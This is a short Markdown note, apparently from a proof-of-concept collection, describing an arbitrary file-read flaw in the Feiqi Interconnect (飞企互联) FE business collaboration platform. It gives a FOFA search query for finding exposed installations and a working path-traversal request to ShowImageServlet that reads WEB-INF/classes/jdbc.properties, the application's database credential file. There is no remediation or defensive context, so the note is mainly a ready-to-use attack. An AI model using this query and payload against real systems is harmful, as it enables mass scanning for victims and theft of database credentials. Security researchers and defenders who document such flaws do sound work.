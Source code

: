 # 飞企互联 FE 业务协作平台存在参数文件读取漏洞 

## 飞企互联 FE 业务协作平台存在参数文件读取漏洞 

## fofa
```
app="飞企互联-FE企业运营管理平台"
```

## poc
```
/servlet/ShowImageServlet?imagePath=../web/fe.war/WEB-INF/classes/jdbc.properties&print
```

